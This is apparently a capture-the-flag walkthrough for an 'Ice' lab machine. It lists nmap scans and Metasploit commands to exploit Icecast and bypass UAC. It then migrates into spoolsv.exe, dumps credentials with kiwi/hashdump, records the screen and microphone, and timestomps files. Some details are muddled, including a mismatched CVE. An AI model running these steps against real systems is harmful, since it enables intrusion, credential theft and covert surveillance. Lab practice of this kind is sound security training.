







## **Ice**

```
nmap -sV -p8000 10.48.129.48
```

```
nmap -sC -sV -Pn -vv 10.48.129.48
```

```
nmap -sS <IP>
```



On port 3389 we found a vulnerable thing

In CVE details we found vulnerability ICE-cast

```
nmap -T4 -p- --script=vuln -vv 10.48.129.48
```

Search icecast in CVE score (we found vuln cve2014-3704 in port 8000)

CVE-2004-1561

But its vulnerability exploit is

Run 
```
msfconsole
```

```
search icecast
```



```
use 0
```

```
options
```

```
set RHOSTS <IP>
```

```
set LHOST IP (your IP from tun0)
```

```
run
```


We entered into the machine

Now use ps to check running processes

We saw icecast2.exe was running in dark pc

```
sysinfo
```



This gets us system information

```
run post/multi/recon/local_exploit_suggester
```

Once it completes, it provides us a list of exploits for privilege escalation

For this we will be using this exploit

exploit/windows/local/bypassuac_eventvwr

Now we will go a step back by Ctrl + Z

Press y to run it in background so we can use this meterpreter exploit session to later use it
`
```
use exploit/windows/local/bypassuac_eventvwr
```

Now we gotta view sessions number so type session for it

```
sessions -l
```



```
set Session 1
```

Now change LHOST to tun0 IP

```
set LHOST <tun0 IP>
```

```
exploit
```



To verify our new privileges type

```
getprivs
```

```
ps
```

Now we will look for a process with NT\ Authority and can help us

So, for this we will use spoolsv.exe



Now to migrate to that use

```
migrate -N spoolsv.exe
```



Now check for user

```
getuid
```

Now we gotta use mimikatz to dump passwords

```
load kiwi
```

Now to check which options are available

```
help
```

Now to get all credentials

```
creds_all
```
Now to drop all passwords in hashes

```
hashdump
```

For screen record

```
screenshare
```

For microphone record

```
record_mic
```

To change timestamp of files

```
timestomp
```
